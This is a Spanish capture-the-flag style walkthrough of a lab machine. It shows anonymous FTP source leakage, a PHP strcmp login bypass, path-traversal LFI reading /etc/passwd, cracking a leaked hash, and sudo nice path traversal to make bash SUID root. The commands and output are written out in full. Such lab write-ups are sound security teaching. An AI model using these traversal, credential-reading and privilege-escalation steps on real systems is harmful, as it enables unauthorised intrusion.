



## Enumeración

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
```

### FTP 2112

Usuario anonymous habilitado

```
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

El contenido del archivo `index.php.bak` revela una funcion vulnerable de `php` (strcmp).

```
[...]
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
[...]
```


### Servicio web 80

**Omisión de autenticación**  
[http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)

Si establezco `$_POST['password']` igual a una matriz vacía, entonces strcmp devolvería un NULL. Debido a algunas debilidades inherentes en las comparaciones de PHP, `NULL==0` devolverá verdadero.


Con esto en mente, envié la siguiente solicitud a la página de inicio de sesión a través de BurpSuite.



Y nos logueamos como usuario `admin`.



### LFI

Dentro del panel de administración encuentro una parámetro vulnerable obteniendo el resultado siguiente:



```
❯ curl -s "http://192.168.188.101/admin/dashboard.php?page=log" -H "Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" --data "file=../../../../../etc/passwd" | html2text | grep "../.." -A 100
Contenu du fichier ../../../../../etc/passwd :
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/
nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/
nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/
sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/
```

Obtengo la contraseña de un usuario

```
❯ john --show hash
webadmin:dragon:1001:1001:webadmin,,,:/home/
```

## Escalada de privilegios

```
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

> nice: ejecuta un programa con prioridad de programación modificada

Creamos un script

```
webadmin@serv:/tmp$ cat shell.sh 
#!/bin/bash

chmod +s /bin/bash
echo $(ls -l /bin/bash)
```

Ejecutamos el siguiente comando.

```
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../../../../tmp/shell.sh
-rwsr-sr-x 1 root root 1183448 Feb 25 2020 /bin/bash
```

Obtenemos root

```
webadmin@serv:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/proof.txt 
417044d5f7358e8479462561c08d8362
```

### Herramientas usadas

- sudo
- nice
- php
- nmap
